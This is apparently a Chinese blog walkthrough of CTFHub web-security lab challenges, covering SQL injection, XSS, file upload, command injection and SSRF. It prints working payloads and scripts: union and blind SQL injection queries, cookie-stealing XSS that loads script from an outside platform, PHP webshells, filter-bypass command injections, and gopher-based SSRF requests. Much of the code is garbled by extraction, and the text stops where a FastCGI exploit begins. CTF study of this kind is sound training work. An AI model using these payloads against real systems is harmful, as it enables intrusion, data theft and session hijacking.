




0x00 Web
Web前置技能
HTTP协议-请求方式
题目描述：HTTP 请求方法, HTTP/1.1协议中共定义了八种方法（也叫动作）来以不同方式操作指定的资源。
提示:如果你得到“HTTP方法不允许”错误，你应该请求index.php。
这里不知道请求的含义，还是看了wp才明白的。。。先说结果，这里说是http请求方法是可以自定义的，那题目让我们使用CTFHUB方法来请求index.php页面，这里我先用bp抓包修改了

如图拿到flag，不过wp是通过curl的方法来请求的
1 curl -v -X CTFHUB http://challenge-c76d77da5e3e2f67.sandbox.ctfhub.com:10800/index.php
HTTP协议-302跳转
一个超链接，点击一下看源代码
发现是要跳转到index.php页面的，但我们实际上是跳转到了index.html，这里就是被重定向了，bp截一手
成功拿到，当然这里依旧可以用curl命令来访问index.php
HTTP协议-Cookie
这里说只有admin用户能拿到flag，我们需要伪造cookie
bp抓包发现admin=0，直觉改为1即可
拿到flag
HTTP协议-基础认证
这里我们点击之后需要输入账户密码
如上图输入之后bp抓包看看
这意味着我们需要爆破了
这里还提示我们你知道admin吗，那说明用户名大概率就是admin了
发送到bp的爆破模块开始爆破
Payload Processing -> Add-> Add Prefix（添加前缀）-> 输入 admin:Payload Processing -> Add-> Encode（添加一个编码方式）-> 选择 Base64 Encode
Payload Encode 取消勾选 URL-encode, 不然你会看到 base64 之后的 = 会被转成 %3d ，你就算爆破到天荒地老也不会出来
找到flag

这里了解一下HTTP基础认证：
1 在HTTP中，基本认证（英语：Basic access authentication）是允许http用户代理（如：网页浏览器）在请求时，提供 用户名 和 密码 的一种方式。
HTTP-响应包源代码
直接右键源代码查看得到
信息泄露
目录遍历
根据题目提示直接点击目录找即可
PHPINFO
1 2 phpinfo() 是php中查看相关信息的函数，当在页面中执行phpinfo()函数时，php会将自身的所有信息全部打印出来。在phpinfo中会泄露很多服务端的一些信息：
点击查看phpinfo，全局搜索flag，在环境变量中找到lfag
备份文件下载
网站源码
题目描述：当开发人员在线上环境中对源代码进行了备份操作，并且将备份文件放在了 web 目录下，就会引起网站源码泄露。
访问www.zip得到了一个压缩包
根据提示让我们估计是让我们访问该文件
拿到flag
bak文件
1 有些时候网站管理员可能为了方便，会在修改某个文件的时候先复制一份，将其命名为xxx.bak。而大部分Web Server对bak文件并不做任何处理，导致可以直接下载，从而获取到网站某个文件的源代码
这里是bak文件泄露，直接访问index.php.bak即可
vim缓存
当开发人员在线上环境中使用 vim 编辑器，在使用过程中会留下 vim 编辑器缓存，当vim异常退出时，缓存会一直留在服务器上，引起网站源码泄露。
在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容
以 index.php 为例：第一次产生的交换文件名为 .index.php.swp
再次意外退出后，将会产生名为 .index.php.swo 的交换文件
第三次产生的交换文件则为 .index.php.swn
根据上述提示我们访问.index.php.swp得到源码
.DS_Store
.DS_Store 是 Mac OS 保存文件夹的自定义属性的隐藏文件。通过.DS_Store可以知道这个目录里面所有文件的清单。
直接访问/.DS_Store访问得到下载文件，不过内容肉眼难辨，需要工具
这里我们用到了 Python-dsstore 这个工具 (https://github.com/gehaxelt/Python-dsstore ) 来完成 .DS_Store 文件的解析：
访问即可
Git泄露
Git-Log
题目描述：当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当,可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。请尝试使用BugScanTeam的GitHack完成本题
直接上工具。
克隆好源代码之后，git log查看历史记录
发现flag，当前所处的版本为 remove flag，flag 在 add flag 这次提交中
解法一：
直接与 add flag (95819c) 这次提交进行比对
1 2 3 git diff 3e25d
解法二：
直接切换到 add flag (3e25d) 这个版本
1 2 3 git reset --hard 3e25d
Git-Stash
考点
git 泄露 .git/refs/stash
stash 用于保存 git 工作状态到 git 栈，在需要的时候再恢复。
1 2 git stash lish #查看当前stash中的内容
克隆好源码之后：
解法一：
执行 git stash list 发现有 stash
执行 git stash pop 发现从 git 栈中弹出来一个文件，这个文件的内容就是 flag
解法二：
如果你使用的 GitHack 工具执行完 git stash show 之后没有显示 stash 记录，那么不妨来尝试这个方法
查看 .git/refs/stash 找到 stash 对应的 hash
git diff 25bfc 即可看到 flag–但我这里没有显示，可能是环境没了的问题
Git-Index
题目中的index并不是我们理解的web网页，而是一个暂存区，默认存储在.git/index。
关于index的具体知识点大家可以阅读一下这个文章：(Git本地库中的索引（Index）及文件状态概述_易生一世的博客-CSDN博客
1 2 3 4 5 6 7 8 git checkout-index命令
这里我是直接读取index目录，结果看到当前目录下多了个txt文件，直接读取得到flag
SVN泄露
当开发人员使用 SVN 进行版本控制，对站点自动部署。如果配置不当,可能会将.svn文件夹直接部署到线上环境。这就引起了 SVN 泄露漏洞。
如果访问url/.svn/entries有反应的话，就存在svn泄露。直接上工具利用：https://github.com/kost/dvcs-ripper --最好在kali安装
安装教程参考：ctfhub–svn泄露
安装好输入以下命令
这里必须要ls -al才能看到恢复的.svn文件，之后tree .svn查看文件目录结构
flag在此目录下，读取即可
HG泄露
当开发人员使用 Mercurial 进行版本控制，对站点自动部署。如果配置不当,可能会将.hg 文件夹直接部署到线上环境。这就引起了 hg 泄露漏洞。
工具依旧是上述的
这里测试了半天，以为能在此直接读到flag的，结果看了wp发现直接访问就行。。。实在是没想到
或者如果这里删掉了该文件，我们可以尝试读取历史文件：路径是 .hg/store/data/flag__2096222060.txt.i 注意下划线是两个
当然也可以直接curl访问
密码口令
弱口令
通常认为容易被别人（他们有可能对你很了解）猜测到或被破解工具破解的口令均为弱口令。
这里尝试了几下，admin+123456即可
默认口令
题目说了是默认口令，我们可以谷歌关键词搜索一手
这里也是顺利的在wooyun看了到公开的漏洞，我们尝试一下上述三个账号，第二个是成功的，如下图
SQL注入
整数型注入
判断是否存在注入点：
1 2 ?id=1 and 1=1
可以发现页面回显不一样。说明是数字型，直接开始注入即可。这里判断字段数是2
1 爆库：?id=-1 union select 1,database()
1 爆表名：?id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
1 爆列名：?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag'
1 爆数据：?id=-1 union select 1,flag from flag
当然sqlmap就更简单了
字符型注入
很简单，只不过需要引号闭合一下，后面用–+注释掉即可，不赘述了
1 ?id=-1' union select 1,flag from flag--+
报错注入
简单的报错注入，不需要闭合，直接上payload即可
1 ?id=1 and updatexml(1,concat(0x7e,database()),1)
1 得到flag：?id=1 and updatexml(1,concat(0x7e,select flag from flag),1)
不过报错显示的字符有限，我们爆出后半部分即可
1 ?id=1 and updatexml(1,concat(0x7e,substring((select flag from flag),15,40)),1)
完整：ctfhub{51f61213dc2a24ab5fc09fc7}
布尔盲注
1 2 ?id=1 and 1=1
如上，页面只有两种回显，只能盲注，写脚本，二分法更快。或者sqlmap
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import timeimport requests'http://challenge-f1141910229dba2a.sandbox.ctfhub.com:10800/?id=' "" for i in range (1 , 100 ):32 128 2 while left < right:f"1 and if(ascii(substr((select flag from flag),{i} ,1))>{mid} ,sleep(2),0)#" if use_time > 2 :1 else :2 print (mid)chr (mid)print (flag)
时间盲注
1 2 ?id=1 and sleep(1)
简单测试一下发现页面回显有所延迟，确定为时间盲注。上脚本或者，sqlmap
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import timeimport requests'http://challenge-3252dd76021b94e3.sandbox.ctfhub.com:10800/?id=' "" for i in range (1 , 100 ):32 128 2 while left < right:f"1 and if(ascii(substr((select flag from flag),{i} ,1))>{mid} ,sleep(2),0)#" if use_time > 2 :1 else :2 chr (mid)print ("flag:" , flag)
MySQL结构
这道题也不知道什么含义，考点和整数型注入似乎是一样的，只不过换了些名字，过程不赘述了，直接给结果
1 ?id=-1 union select 1,oifqtgzzzi from cjpyvsldua
Cookie注入
提示我们在cookie处
如上图，成功爆库，接下来爆表
1 id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
爆列名
1 id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='asdlhojeyd'
爆数据
1 id=-1 union select 1,tbslnjukkx from asdlhojeyd
UA注入
看数据就知道注入点在UA头处，直接修改即可，步骤同上，不再赘述
Referer注入
直接在referer头处输入SQL语句即可，不再赘述
过滤空格
题目说了过滤空格，直接采用%0a或者内联注释符绕过即可
1 ?id=-1/**/union/**/select/**/1,zfbvfsfjmz/**/from/**/lyvloeyoue
XSS
XSS-反射型
题目说是反射型，我们先简单测试一下
的确存在，而且没有过滤，那我们分析一下下面的Bot的含义，我们都知道如果网站存在xss的话，其危害通常来说就是获取其他用户甚至是管理员的cookie，密码等等信息，那我们输入恶意xss代码，肯定需要有人去访问或者点击，这样的话我们才能获得他们cookie等信息，而下面的Bot就是存在一个机器人去模仿别的用户或者管理员去点击我们的恶意xss代码，从而我们可以得到其cookie。
那接下来就需要我们的xssplatform了，毕竟bot点击之后只会显示success，其cookie我们无法得知，需要通过xss平台来获取cookie。建议是自己用vps搭一个平台，这里我已经搭建好，随后建一个项目，配置默认即可。
随便复制一个，先提交至上面的输入框
接下来将得到的url传到下面的bot让其自动点击
页面显示success之后我们到xss后台就可以看到cookie信息了
XSS-存储型
这里同样将上述的xss代码传入上面的输入框，传入之后这个恶意代码就被存入了对方的（受害者）服务器中，随后将靶场地址输入到下面的bot中，其后每当bot访问该网址，就相当于执行一次我们恶意代码，我们只需要在xss平台就可以获得cookie
XSS-DOM反射
DOM反射说白了，就是审计前端的js代码，这种xss是反射型的变种，他不需要去服务器端进行交互，直接就在前端将插入的js代码渲染了，也就是这完全是客户端的事情。
所以遇到这种反射，我们通常需要考虑如何闭合其代码，从而将我们的恶意js代码得到执行
这里我们简单测试发现我们输入的内容插入到了这个innerHTML中，但由于其被当成了字符串，所以这个恶意js代码无法执行，因此我们需要考虑闭合。倘若我们构造下列payload：
1 2 3 ';</script><script>alert(' hacker')</script>// //这样的话我们就将前面的script标签进行了闭合,后续通过//进行注释,我们的js代码得以成功执行 //接下来将上列payload替换为我们xss平台的代码即可,最后将得到的url提交给bot让其点击,观察平台响应即可
成功拿到flag
XSS-DOM跳转
这里也是有点蒙蔽，就看wp了
1 2 3 4 5 6 7 8 9 10 11 <script>var target = location.search .split ("=" )if (target[0 ].slice (1 ) == "jumpto" ) {href = target[1 ];
这里是漏洞点，可见这里我们需要get传一个jumpto的参数，并在=后面附上我们的恶意js代码，但此处我并不清楚如何添加，看了wp发现是知识盲区：
注意！当你将类似于 location.href = “javascript:alert(‘xss’)” 这样的代码赋值给 location.href 时，浏览器会将其解释为一种特殊的URL方案，即 “javascript:”。在这种情况下，浏览器会将后面的 JavaScript 代码作为URL的一部分进行解析，然后执行它。
所以有如下payload：
这段代码使用了 jQuery 的 $.getScript() 函数来异步加载并执行来自 xss平台 的 js 脚本，使用前提是网站引用了jQuery。
拿到flag
XSS-过滤空格
简单测试一下知道过滤了空格，查询一番可以知道通过/**/或者/符号即可绕过，原始payload如下：
1 </textarea>'"><script src=http:/ /ip:9999/ 9GXMk4></script>
修改如下：
1 </textarea>'"><script/ src=http :
之后老办法即可
XSS-过滤关键词
简单测试知道过滤了script关键词，尝试双写成功绕过。
1 </textarea>'"><scriscriptpt/ src=http :
文件上传
无验证
题目说没有过滤，直接传入一句话上传即可，如下图，文件上传路径也得知了，直接访问。
1 1 =system ('cat /var/www/html/flag_1916225392.php' );
前端验证
这里上传php后缀文件会发现被前端的js禁止了，那我们修改后缀为其指定的，随后抓包修改即可
成功上传
1 1 =system ('cat /var/www/html/flag_985418763.php' );
.htaccess
htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能
如果我们用上一关的思路会发现行不通，其在后端进行了后缀名的验证
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 if (!empty ($_POST ['submit' ])) {$name = basename ($_FILES ['file' ]['name' ]);$ext = pathinfo ($name )['extension' ];$blacklist = array ("php" , "php7" , "php5" , "php4" , "php3" , "phtml" , "pht" , "jsp" , "jspa" , "jspx" , "jsw" , "jsv" , "jspf" , "jtml" , "asp" , "aspx" , "asa" , "asax" , "ascx" , "ashx" , "asmx" , "cer" , "swf" );if (!in_array ($ext , $blacklist )) {if (move_uploaded_file ($_FILES ['file' ]['tmp_name' ], UPLOAD_PATH . $name )) {echo "<script>alert('上传成功')</script>" ;echo "上传文件相对路径<br>" . UPLOAD_URL_PATH . $name ;else {echo "<script>alert('上传失败')</script>" ;else {echo "<script>alert('文件类型不匹配')</script>" ;
我们可以看到上述过滤的后缀很多，但是没有过滤.htaccess，那我们上传即可，内容如下
1 AddType application/x-httpd-php .bcx
这意味着如果我们上传后缀名为.bcx的文件，其服务器会将其内容按照php解析。
1 1 =system ('cat /var/www/html/flag_2427815270.php' );
MIME绕过
这里进行了MIME类型的检测
我们直接修改Content-Type即可
1 1 =system ('cat /var/www/html/flag_324517797.php' );
文件头检查
这里限制了文件头也就是不能<?php开头了，那我们以GIF89a开头即可
1 1 =system ('cat /var/www/html/flag_31822842.php' );
00截断
这里题目说是利用00截断，原理就是空字符在C语言中会被当做字符串结束的标志，而php底层是C实现的，那也就是说php也可以用00来代表截断，不过此方法有PHP版本限制
我们随便上传个文件抓包可以看到如下图，这里增加了一个参数导致我们可以随意控制文件上传路径，那我们直接在路径后面做出如下修改
这里注意空字符用%00代替，随后直接上传即可，这里如果我们的文件名为1.jpg之类的，那上传后为shell.php%001.jpg这里上传至服务器之后，它会将后面的1.jpg忽略，从而我们可以绕过。
双写后缀
这里上传看了一下发现后缀php被替换为空了，但下面给了我们提示代码
1 2 3 $name = basename ($_FILES ['file' ]['name' ]);$blacklist = array ("php" , "php5" , "php4" , "php3" , "phtml" , "pht" , "jsp" , "jspa" , "jspx" , "jsw" , "jsv" , "jspf" , "jtml" , "asp" , "aspx" , "asa" , "asax" , "ascx" , "ashx" , "asmx" , "cer" , "swf" , "htaccess" , "ini" );$name = str_ireplace ($blacklist , "" , $name );
这里将黑名单中的替换为空，和明显可以双写绕过
RCE
eval()执行
1 2 3 4 5 6 7 <?php if (isset ($_REQUEST ['cmd' ])) {eval ($_REQUEST ["cmd" ]);else {highlight_file (__FILE__ );?>
没有任何过滤
最后cat读取即可
文件包含
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php error_reporting (0 );if (isset ($_GET ['file' ])) {if (!strpos ($_GET ["file" ], "flag" )) {include $_GET ["file" ];else {echo "Hacker!!!" ;else {highlight_file (__FILE__ );?> "shell.txt" >shell</a>, how to use it ?i have a shell , how to use it ?
这里限制了flag的出现，strpos是用于寻找file参数中是否存在flag敏感字符。
那我们传入一句话即可，这里用他提供的shell.txt了，因为include会执行传入的文件中的php代码
最后读取即可
使用题目描述的php伪协议的前提就是，下面的include那个参数为on
接着我们构造payload即可
远程包含
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php error_reporting (0 );if (isset ($_GET ['file' ])) {if (!strpos ($_GET ["file" ], "flag" )) {include $_GET ["file" ];else {echo "Hacker!!!" ;else {highlight_file (__FILE__ );?> 't have shell, how to get flag?<br> <a href="phpinfo.php">phpinfo</a> i don' t have shell, how to get flag?
我们看到值为on可以进行远程文件包含，我们直接将其包含我们vps上的恶意文件即可注意恶意文件的后缀不可为php
或者采用上一关的php://input也可
读取源代码
直接php伪协议读取即可
命令注入
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php $res = FALSE ;if (isset ($_GET ['ip' ]) && $_GET ['ip' ]) {$cmd = "ping -c 4 {$_GET['ip']} " ;exec ($cmd , $res );?> <?php if ($res ) {print_r ($res );?> <?php show_source (__FILE__ );?>
1 2 ip=127.0.0.1|ls cat 3475247317307.php
过滤cat
1 ?ip=127.0.0.1|tac flag_232592471929828.php|base64
解密即可
过滤空格
1 ?ip=127.0 .0.1 |tac${IFS}flag_15920651517426.php
1 < 、<>、%20(space)、%09(tab)、\$IFS\$9、 \${IFS}、$IFS
过滤目录分隔符
这里看到题目过滤了/符号，陷入知识盲区了，想着编码可以绕过，但没有效果，不知道为何。看了wp发现似乎是考察对于管道符的理解的，我们可以采用;符号
;ls发现flag所在目录
那接下来我们这样构造
cat读取即可
过滤运算符
这里看代码过滤了&和/符号，我们直接用;即可
?ip=;cat flag_146781707832397.php
综合过滤练习
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php $res = FALSE ;if (isset ($_GET ['ip' ]) && $_GET ['ip' ]) {$ip = $_GET ['ip' ];$m = [];if (!preg_match_all ("/(\||&|;| |\/|cat|flag|ctfhub)/" , $ip , $m )) {$cmd = "ping -c 4 {$ip} " ;exec ($cmd , $res );else {$res = $m ;?>
这里过滤了|、&、;、\、cat、flag、ctfhub，这里可以采用%0a换行符或者%09Tab制表符绕过
在 Linux 中使用 Tab 键，可以实现命令补全、文件和目录名补全等。
1 ?ip=%0acd%09*here%0atac${IFS} fla'' g_61041444712473.php
SSRF
内网访问
这里直接按照如上访问即可得到
伪协议读取文件
采用file伪协议直接读取到
端口扫描
这里说是端口扫描且范围在8000-9000，那我们利用dict或者http协议即可
我们构造如上payload对8000位置进行爆破即可
共计完成后发现一个长度明显不同的
最后利用http协议访问该端口发现flag
POST请求
这次是发一个HTTP POST请求.对了.ssrf是用php的curl实现的.并且会跟踪302跳转.加油吧骚年
这题又是我的知识盲区，就跟着wp走了，思路如下。
一般遇到这种漏洞我们需要先利用简单的file、http、dict协议进行初步的判断，比如端口开放情况，其内网文件那些可读等等。那这里我们就先看看能否读取到127.0.0.1里面的文件
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php error_reporting (0 );if (!isset ($_REQUEST ['url' ])){header ("Location: /?url=_" );exit ;$ch = curl_init ();curl_setopt ($ch , CURLOPT_URL, $_REQUEST ['url' ]);curl_setopt ($ch , CURLOPT_HEADER, 0 );curl_setopt ($ch , CURLOPT_FOLLOWLOCATION, 1 );curl_exec ($ch );curl_close ($ch );?>
再读flag.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php error_reporting (0 );if ($_SERVER ["REMOTE_ADDR" ] != "127.0.0.1" ) {echo "Just View From 127.0.0.1" ;return ;$flag =getenv ("CTFHUB" );$key = md5 ($flag );if (isset ($_POST ["key" ]) && $_POST ["key" ] == $key ) {echo $flag ;exit ;?> "/flag.php" method="post" >"text" name="key" ><?php echo $key ;?> -->
这里说地址只能为127.0.0.1且如果我们传入正确的key即可获得flag（但必须是post传入key），并且提示我们访问flag.php即可得到key，如下图：key=fd2d96bb2014fc2e6989fca7ece45856
接下来就应该想着谁可以进行post传参，这里看了wp知道是gopher协议可以
1 2 gopher伪协议（curl支持gopher），发送GET或POST请求(需要配合http协议二次url编码上传)；
1 2 3 4 5 6 POST /flag.php HTTP/1.1 Host : 127.0.0.1:80Content-Type : application/x-www-form-urlencodedContent-Length : 36
具体原理一会儿再说，然后我们将它进行url编码，进行编码时要注意：
问号（？）需要转码为URL编码，也就是%3f(本题不涉及这个问题)
回车换行要变为%0d%0a，但如果直接用工具转，可能只会有%0a
在HTTP包的最后要加%0d%0a，代表消息结束（具体可研究HTTP包结束）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 import urllib.parse"""POST /flag.php HTTP/1.1 Host: 127.0.0.1:80 Content-Type: application/x-www-form-urlencoded Content-Length: 36 key=b8241a456e991e16ea69f441fd0cb214 """ '%0A' , '%0D%0A' )'gopher://127.0.0.1:80/_' + new2print (result)
之后bp发送即可
这里在复现的时候遇到的问题也很多，在此梳理一下
第一个是关于gopher协议编码几次的问题：
这里好理解一点就是：比如我们想要利用gopher协议攻击一个服务器的内网，并且该服务器某处存在一个ssrf的漏洞，那我们肯定要在此处传入我们的gopher协议进行打击，但在此之前呢，该web端对于我们传入的参数（也就是gopher协议的内容）进行了多次请求（或者叫做处理），但这些请求对我们来说是多余不必要的，我们想要的是最后一次可以达到对内网服务的请求。
但再次之前服务器对该参数内容进行了多次处理：url解码，这可能会导致我们在最终攻击之前，其gopher协议里面的部分参数被解析为无效的字符之类的导致我们的攻击失败，因此我们需要进行足够次数的url编码，让其保证在最后一次对内网服务请求的时候在对我们的gopher内容进行最后一次url解码。–如果理解有误，勿喷~~
那接下来让我们回顾一下上述代码，分析一下需要进行几次编码
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php error_reporting (0 );if (!isset ($_REQUEST ['url' ])){header ("Location: /?url=_" );exit ;$ch = curl_init ();curl_setopt ($ch , CURLOPT_URL, $_REQUEST ['url' ]);curl_setopt ($ch , CURLOPT_HEADER, 0 );curl_setopt ($ch , CURLOPT_FOLLOWLOCATION, 1 );curl_exec ($ch );curl_close ($ch );?>
这里说是如果url参数不存在则进行302跳转，如果存在呢，则在正常进行curl的http请求，而这一处代码：
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1); - 如果HTTP响应包含“Location:”重定向，那么这个选项允许cURL遵循至新的位置(重定向)。
那这里基本明确了，首先我们在url进行get传参的时候呢，该web服务器会自动对其中的内容进行一次编码 ，接着在index.php页面呢，进行了一次curl的http请求（而这个请求是我们想要的）这也就意味着我们需要进行两次编码，
但我看了几篇wp发现有的还进行了3次编码，这里我猜测因为他们在传参的时候首先是请求的index.php页面，之后再请求flag.php，但如果先请求index.php页面呢，这个http响应是包含location重定向的，这里与curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);配合会进行一次302重定向的请求，因此会增加一次url编码次数。
如果我们的请求直接是对flag.php进行的，那就只需要两次了
上传文件
index.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php error_reporting (0 );if (!isset ($_REQUEST ['url' ])) {header ("Location: /?url=_" );exit ;$ch = curl_init ();curl_setopt ($ch , CURLOPT_URL, $_REQUEST ['url' ]);curl_setopt ($ch , CURLOPT_HEADER, 0 );curl_setopt ($ch , CURLOPT_FOLLOWLOCATION, 1 );curl_exec ($ch );curl_close ($ch );?>
flag.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php error_reporting (0 );if ($_SERVER ["REMOTE_ADDR" ] != "127.0.0.1" ){echo "Just View From 127.0.0.1" ;return ;if (isset ($_FILES ["file" ]) && $_FILES ["file" ]["size" ] > 0 ){echo getenv ("CTFHUB" );exit ;?> "/flag.php" method="post" enctype="multipart/form-data" >"file" name="file" >
这里检查是否有一个名为“file”的文件上传到了脚本，并且这个文件的大小大于0字节。换句话说，脚本期待接收到一个文件上传。
这里也是懵逼了，忘记是考察gopher协议了，我还以为有什么其他伪协议有可以上传文件之类的请求呢，但却忘记了本质都是post请求。依旧使用gopher即可
不过这里对我来说不知道如何构造文件上传包，因此看了wp发现恍然大悟，很佩服
这里我们访问指定页面会发现并没有提交按钮，但我们可以修改前端代码添加啊：
接下来我们抓一个文件上传的包即可
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 POST /flag.php HTTP/1.1 Host : challenge-e7b452777f5f1a42.sandbox.ctfhub.com:10800Content-Length : 306Cache-Control : max-age=0Upgrade-Insecure-Requests : 1Origin : http://challenge-e7b452777f5f1a42.sandbox.ctfhub.com:10800Content-Type : multipart/form-data; boundary=----WebKitFormBoundary1KSttxB6ZH3HWz2eUser-Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36Accept : text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Referer : http://challenge-e7b452777f5f1a42.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.phpAccept-Encoding : gzip, deflate, brAccept-Language : zh-CN,zh;q=0.9Connection : close------WebKitFormBoundary1KSttxB6ZH3HWz2e Content-Disposition: form-data; name="file" ; filename="shell.jpg" Content-Type: image/jpeg <?php @eval ($_POST [1 ]);?> ------WebKitFormBoundary1KSttxB6ZH3HWz2e Content-Disposition: form-data; name="hybcx" 提交 ------WebKitFormBoundary1KSttxB6ZH3HWz2e--
用上述介绍的python代码对其进行二次url编码即可，建议上述payload的最后一行别去掉，这代表着http请求的结束标志
FastCGI协议
这道题我看着知识面挺广的，所以这里就直接跟着文章复现，具体的原理我另起一篇文章续写
这里我们在理解了原理之后直接上exp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 import socketimport 